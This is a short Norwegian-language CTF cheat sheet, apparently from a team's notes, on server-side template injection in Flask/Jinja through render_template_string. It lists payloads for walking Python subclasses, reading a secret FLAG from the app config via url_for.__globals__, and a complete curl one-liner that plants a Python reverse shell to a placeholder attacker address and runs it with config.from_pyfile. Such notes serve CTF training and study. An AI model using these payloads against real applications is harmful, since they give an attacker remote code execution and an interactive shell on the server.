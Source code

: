 # Flask (Python og Jinja) - Template injection
Funksjonen `render_template_string` er sårbar og er som 
regel sårbarheten i Flask-oppgaver. 
Brukerkontrollert input til `render_template_string`, 
gjør det mulig å kjøre kode. Det gjør vi ved å legge 
inn egne templates. Eksempel på template:
```
{{1+2}}
```

Flask bruker [Jinja](https://l.messenger.com/l.php?u=http%3A%2F%2Fjinja.pocoo.org%2Fdocs%2F2.10%2F&h=AT3awb25ic-bDs9YFjYR4v7rt_QZgIWmEHtbLJ0UF-Jo6rtItGzxBfv5n_GevTe7LAlMz-CL4PvOoRkdBqP8yyJ5t5KJJWFUEl_LYbpuk-oM_QogzOS8Wn1QfcNMbR6nkao)
som er et templating språk. Flask har et objekt som heter `request` 
som i noen tilfeller brukes for å finne info. Med request kan man 
prøve å komme seg til et objekt som har oversikten over de filene 
vi ønsker. 

En fremgangsmåte er å kjøre opp kildekoden hos seg selv om den er 
tilgjengelig. Da kan man teste og lete litt rundt selv og se hvilke
funksjoner som er tilgjengelig via din template. Noen 
ganger kan man bruke en bug for å hente ut kildekoden først,
f.eks. med LFI. Deretter kan man f.eks teste ut de tingene som er 
blacklistet, for å finne ut hva som skjuler seg. Det kan være 
funksjoner som kan brukes som ellers er vanskelig å finne ut at er der. 

## Examples
* For å komme til vilkårlige klasser 
`{{request.__class__.__mro__[8].__subclasses__()[40]....}}`, 
hvor man så må finne riktig klasse. 
* Tilsvarende kan man bruke denne for å få tak i klasser 
`{{[].__class__.__base__.__subclasses__()...}}`
* Eksempel med at `url_for` er en Flask funksjon 
som er tilgjengelig fra templaten din.  
`{{url_for.__globals__['current_app'].config['FLAG']}}`. 
Fra dette eksempelet er flagget dyttet inn i config som er
en dictionary i starten av filen, `app.config['FLAG'] = os.environ.pop('FLAG')`.
* Finne/komme seg til Flask-objektet fordi det gir full oversikt. 
(Ikke gjort før, kommer sikkert)
* Reverse shell: 
```
curl 'localhost:8088/?next={{request.__class__.__mro__[8].__subclasses__()[40](request.headers[request.headers.keys()[6]],request.headers[request.headers.keys()[6]][5]).write(request.headers[request.headers.keys()[4]])}}{{config.from_pyfile(request.headers[request.headers.keys()[6]])}}' -g -H "x-f: /tmp/w" -H 'x-p: import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("REVERSE_SHELL_IP",REVERSE_SHELL_PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Sources
* https://0day.work/ictf-2017-flasking-unicorns-writeup-or-how-we-might-have-rooted-your-ictf-vm/#flaskingunicorns
* https://0day.work/jinja2-template-injection-filter-bypasses/
